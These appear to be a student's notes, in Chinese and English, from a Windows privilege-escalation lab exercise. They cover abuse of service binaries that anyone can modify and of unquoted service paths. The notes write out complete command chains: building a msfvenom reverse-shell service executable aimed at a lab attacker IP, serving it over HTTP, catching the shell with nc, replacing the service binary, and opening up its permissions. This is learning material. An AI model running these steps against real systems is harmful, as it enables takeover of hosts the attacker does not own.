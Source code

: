 			--> Process Hacker 
				=> svchost.exe => go to server 
				=> AppHostSvc => Properties => Security 
				--> 服務配置 : HKLM\SYSTEM\CurrentControlSet\Services\
				
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Insecure Permissions on Service Executable (服務可執行檔案的不安全權限)
		--> Splinterware System Scheduler  
			--> 查詢服務 : sc qc WindowsScheduler
				=>  BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
			--> 檢查權限 : icacls C:\PROGRA~2\SYSTEM~1\WService.exe
				=> C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M) |  修改權限 (M)
			--> payload : 
				--> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.92.230 LPORT=4445 -f exe-service -o rev-svc.exe
			--> kali : 
				--> python3 -m http.server
				--> nc -lvp 4445 
			--> Powershell :
				-->  wget http://10.11.92.230:8000/rev-svc.exe -O rev-svc.exe
			--> cmd : 
				--> cd C:\PROGRA~2\SYSTEM~1\
				-->  將文件移至備份文件 : 
					--> move WService.exe WService.exe.bkp 
				--> 用反向 shell 替換它 and 重命名它
					--> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
				--> icacls WService.exe /grant Everyone:F //向Everyone群組授予完全權限
				
			--> 重啟 :s
				--> sc stop windowsscheduler
				--> sc start windowsscheduler
			
			--> cd ../../Users/svcusr1/Desktop 
				
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Unquoted Service Paths (未加引號的服務路徑)
		--> 有空格 
			--> sc qc "vncserver"
				-->  正確 "C:\Program Files\RealVNC\VNC  
			--> sc qc "disk sorter enterprise"
				=> BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
				-->  易錯 : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
					=> C:\\MyPrograms\\Disk.exe 
					=> C:\\MyPrograms\\Disk Sorter.exe 
					=> C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe
					
			--> 檢查權限 : icacls c:\MyPrograms
				--> AD | WD權限 => 分別建立子目錄和檔案
					=> BUILTIN\Users:(I)(CI)(AD)
            				=> BUILTIN\Users:(I)(CI)(WD)
				
				
			--> payload : 
				--> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.92.230 LPORT=4446 -f exe-service -o rev-svc2.exe
			--> kali : 
				--> python3 -m http.server	
				--> nc -lvp 4446
			--> Powershell :
				-->  wget http://10.11.92.230:8000/rev-svc2.exe -O rev-svc2.exe
			--> cmd : 
				--> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
				--> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
				